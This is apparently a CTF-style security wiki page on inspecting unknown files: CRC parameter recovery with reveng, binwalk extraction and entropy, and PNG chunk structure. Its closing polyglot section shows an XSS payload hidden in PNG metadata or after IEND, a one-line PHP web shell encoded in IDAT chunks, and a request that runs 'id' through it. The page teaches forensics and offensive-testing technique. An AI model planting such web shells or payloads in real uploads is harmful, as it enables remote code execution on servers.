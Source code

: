 ```yaml
---
description: What to do with a file you don't understand
---
```


# File Formats

## Understanding common file formats

If you want to understand how a file format works, you should look at documentation online about it. Often these formats are not ASCII readable so you'll want to use a hex editor, such as `xxd`, `hexedit` or [hexyl](https://github.com/sharkdp/hexyl).&#x20;

A big collection of file formats made by Ange Albertini is the following (just scroll through until you find your format):

{% embed url="https://github.com/corkami/pics/blob/master/binary/README.md" %}
A big collection of drawings of file formats to understand them quickly
{% endembed %}

### CRCs: Cyclic Redundancy Checks

File formats often use a [Cyclic Redundancy Check (CRC)](https://en.wikipedia.org/wiki/Cyclic_redundancy_check) to validate if the bytes have been tampered with or corrupted slightly. See these as a checksum that combines all bytes into a small extra set of bytes that is different if you change even a single bit. These are not as strong as real hashing algorithms, but only output a few bytes. Preventing collisions is not their purpose, purely detecting accidental changes.

Because there are many different types of CRCs, a site like the following makes it easy to compare your data and output to reverse engineer exactly what algorithm was used. Then you can use this knowledge to create a correct checksum for any arbitrary data:

{% embed url="https://crccalc.com/" %}
Quickly view lots of well-known CRC of different sizes based on your input
{% endembed %}

[CRC `reveng`](https://reveng.sourceforge.io/) is another tool built for calculating the CRC parameters from enough samples, so it does not have to be a well-known algorithm.&#x20;

<details>

<summary>Compilation</summary>

Download and extract the source code, then run `make`. If you run into the following error, do as it says and change the `BMP_BIT` and `BMP_SUB` values inside `config.h`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ make
</strong>gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -DBMPTST -o bmptst bmpbit.c
( ./bmptst &#x26;&#x26; touch bmptst ) || ( rm bmptst bmptst.exe &#x26;&#x26; false )
reveng: configuration fault.  Update config.h with these definitions and recompile:
        #define BMP_BIT   64
        #define BMP_SUB   32
<strong>$ make
</strong>gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -DBMPTST -o bmptst bmpbit.c
( ./bmptst &#x26;&#x26; touch bmptst ) || ( rm bmptst bmptst.exe &#x26;&#x26; false )
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c bmpbit.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c cli.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c model.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c poly.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c preset.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c reveng.c
...
</code></pre>

Then you can install the tool using `sudo ln -s "$(pwd)"/reveng /usr/bin/reveng`.

</details>

<details>

<summary>Usage</summary>

Given a word length (often 8, 16 or 32), this tool can find the parameters of a CRC algorithmically. You need to provide hex strings that are followed by the CRC. Often these can be recognized by templated data (eg. lots of nulls or similar data) followed by 1, 2 or 4 random bytes which are the CRC. Take the following example:

{% code title="Hexdump" %}
```python
52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00  D9 D1 49 38  REC...............I8
52 45 43 00  02 00 00 00  06 00 00 00  07 00 00 00  2F 1E 65 D0  REC............./.e.
52 45 43 00  02 00 00 00  08 00 00 00  09 00 00 00  2E 7B 30 25  REC..............{0%
52 45 43 00  02 00 00 00  0A 00 00 00  0B 00 00 00  D8 B4 1C CD  REC.................
```
{% endcode %}

It looks like the last 4 bytes of each row are pretty random. To crack the exact algorithm used, we simply provide them to `reveng` as hex strings and the 32-bit length we guessed52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00  D9 D1 49 38  REC...............I8

<pre class="language-shell-session" data-overflow="wrap"><code class="lang-shell-session"><strong>$ reveng -w32 -s \
</strong><strong>  "52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00  D9 D1 49 38" \
</strong><strong>  "52 45 43 00  02 00 00 00  06 00 00 00  07 00 00 00  2F 1E 65 D0" \
</strong><strong>  "52 45 43 00  02 00 00 00  08 00 00 00  09 00 00 00  2E 7B 30 25" \
</strong><strong>  "52 45 43 00  02 00 00 00  0A 00 00 00  0B 00 00 00  D8 B4 1C CD"
</strong>
width=32  poly=0x04c11db7  init=0xffffffff  refin=true  refout=true  xorout=0xffffffff  check=0xcbf43926  residue=0xdebb20e3  name="CRC-32/ISO-HDLC"
</code></pre>

It found all parameters, and the preset name "CRC-32/ISO-HDLC". This is a well-known variant. Next, we can predict the CRC for any sequence of data by specifying a preset:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ reveng -m "CRC-32/ISO-HDLC" -c \
</strong><strong>  "52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00"
</strong>
d9d14938
</code></pre>

This correctly computes the hash for the first string! If the tool did not find a named preset, you can still give it the raw parameters to achieve the same result:

<pre class="language-shell-session"><code class="lang-shell-session">$ reveng -w $WIDTH -p $POLY -i $INIT -x $XOROUT -c $INPUT_DATA
# # See -b, -B, -l, and -L for refin/refout values
<strong>$ reveng -w32 -p 0x04C11DB7 -i 0xFFFFFFFF -l -x 0xFFFFFFFF -c \
</strong><strong>  "52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00"
</strong>
d9d14938
</code></pre>

</details>

## Binwalk

Sometimes when data tries to be hidden inside another file, it is just pasted right into the host file. Meaning that the bytes of the secret file are just somewhere in the other file. Using [binwalk](https://github.com/ReFirmLabs/binwalk) you can check for known file signatures in a file to see if it embeds something. \
Using the following command you can also recursively extract all of these into a `.extracted` folder:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ binwalk -eM file.bin
</strong>DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             TRX firmware header, little endian, image size: 37883904 bytes, CRC32: 0x95C5DF32, flags: 0x1, version: 1, header size: 28 bytes, loader offset: 0x1C, linux kernel offset: 0x0, rootfs offset: 0x0
28            0x1C            uImage header, header size: 64 bytes, header CRC: 0x780C2742, created: 2018-10-10 02:12:20, image size: 2150281 bytes, Data Address: 0x8000, Entry Point: 0x8000, data CRC: 0xA097CFEA, OS: Linux, CPU: ARM, image type: OS Kernel Image, compression type: none, image name: "DD-WRT"
92            0x5C            Linux kernel ARM boot executable zImage (little-endian)
2460          0x99C           device tree image (dtb)
23432         0x5B88          xz compressed data
23776         0x5CE0          xz compressed data
2117484       0x204F6C        device tree image (dtb)
3145756       0x30001C        UBI erase count header, version: 1, EC: 0x0, VID header offset: 0x800, data offset: 0x1000

<strong>$ binwalk --dd='.*' file.bin  # Another way to extract all file signatures
</strong></code></pre>

{% hint style="warning" %}
A common false positive with PNGs is `Zlib compressed data`. This is because PNG uses Zlib for compression in its own file format, so it is recognized by binwalk. But very often this compressed data just covers the entire file
{% endhint %}

You can also use binwalk to understand an unknown file better, by looking at the **entropy** for example. Entropy is how random a certain sequence of bytes is. Simple ASCII text is pretty predictable and stays within about the same range, so the entropy would be low. But for completely random/encrypted bytes the entropy should be really high, close to 1. You can get a graph of the entropy of the file using the `-E` flag:

```shell-session
$ binwalk -E file.bin
```

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption><p>An example of a firmware image showing various amounts of entropy (<a href="https://allabouttesting.org/short-tutorial-firmware-analysis-tool-binwalk/">source</a>)</p></figcaption></figure>

This can give a good idea about what parts of a file you could look at.&#x20;

## PNG

Image files like PNG can have a lot of hidden info. It's a relatively complex file format with a lot of room for secrets.&#x20;

A quick check you can do to see if it is a completely valid PNG file is using [pngcheck](http://www.libpng.org/pub/png/apps/pngcheck.html):

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ pngcheck -h
</strong>Test PNG, JNG or MNG image files for corruption, and print size/type info.

Usage:  pngcheck [-7cfpqtv] file.{png|jng|mng} [file2.{png|jng|mng} [...]]
   or:  ... | pngcheck [-7cfpqstvx]
   or:  pngcheck [-7cfpqstvx] file-containing-PNGs...

Options:
   -7  print contents of tEXt chunks, escape chars >=128 (for 7-bit terminals)
   -c  colorize output (for ANSI terminals)
   -f  force continuation even after major errors
   -p  print contents of PLTE, tRNS, hIST, sPLT and PPLT (can be used with -q)
   -q  test quietly (output only errors)
   -s  search for PNGs within another file
   -t  print contents of tEXt chunks (can be used with -q)
   -v  test verbosely (print most chunk data)
   -x  search for PNGs within another file and extract them when found

<strong>$ pngcheck image.png
</strong>OK: image.png (1920x1080, 32-bit RGB+alpha, non-interlaced, 96.6%).
</code></pre>

PNG files consist of **chunks** of bytes that tell something about the image. The most common one is `IDAT` which contains the pixel data of the image. An image always ends with `IEND` and 4 checksum bytes (every chunk has the checksum).&#x20;

You might see custom chunks being used to embed data, or data appended to the end, after `IEND`.&#x20;

### Embed Raw Data (Polyglots)

You might find some applications where you are allowed to upload files and find that you can either give them a `.php` extension to create a web shell or make the `Content-Type: text/html` to render tags inside the raw bytes for [cross-site-scripting-xss.md](../web/client-side/cross-site-scripting-xss.md "mention"). In either case, this application might validate or even transform your image in a way that does not preserve all the original bytes, breaking your payload.&#x20;

While you might be able to include **metadata** with tools like `exiftool`, these might be stripped by the server upon saving your file:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ exiftool -Comment='&#x3C;svg/onload=alert()>' example.png
</strong>    1 image files updated
<strong>$ hd example.png
</strong>00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
...
00000080  e0 b6 b6 f4 d1 0d 53 22  0d 14 00 00 00 1c 74 45  |......S"......tE|
<strong>00000090  58 74 43 6f 6d 6d 65 6e  74 00 3c 73 76 67 2f 6f  |XtComment.&#x3C;svg/o|
</strong><strong>000000a0  6e 6c 6f 61 64 3d 61 6c  65 72 74 28 29 3e ad 30  |nload=alert()>.0|
</strong>000000b0  14 57 00 00 08 7d 49 44  41 54 78 5e ec ce 31 0d  |.W...}IDATx^..1.|
</code></pre>

Another trick is simply appending data to the end of the file. This would not pass as a valid PNG anymore, but could survive on the server:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ echo '&#x3C;svg/onload=alert()>' >> example.png
</strong>
<strong>$ hd example.png
</strong>...
000009d0  5a b3 07 54 ac 7b 51 fb  78 a7 ea 00 00 00 00 49  |Z..T.{Q.x......I|
<strong>000009e0  45 4e 44 ae 42 60 82 3c  73 76 67 2f 6f 6e 6c 6f  |END.B`.&#x3C;svg/onlo|
</strong><strong>000009f0  61 64 3d 61 6c 65 72 74  28 29 3e 0a              |ad=alert()>.|
</strong>000009fc
</code></pre>

Lastly, there is a technique more resistant to transformation by using the **IDAT chunks**. These normally include compressed DEFLATE data representing the pixels themselves, but this process can be reversed to obtain a string of pixels that compress into a payload like:

```php
<?=$_GET[0]($_POST[1]);?>
```

If the payload above is executed, you can provide a function you want to call like `system()` as the query parameter `0`, and an argument you want to give the function in a `1` body parameter.&#x20;

<pre class="language-http"><code class="lang-http"><strong>POST /shell.php?0=system HTTP/1.1
</strong>...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

<strong>1=id
</strong></code></pre>

The process of creating these and a few example payloads are described in the following post, which also shows an XSS payload with the same idea:

{% embed url="https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/" %}

## Archives (ZIP, TAR, 7z, etc.)

{% content-ref url="archives.md" %}
[archives.md](archives.md)
{% endcontent-ref %}
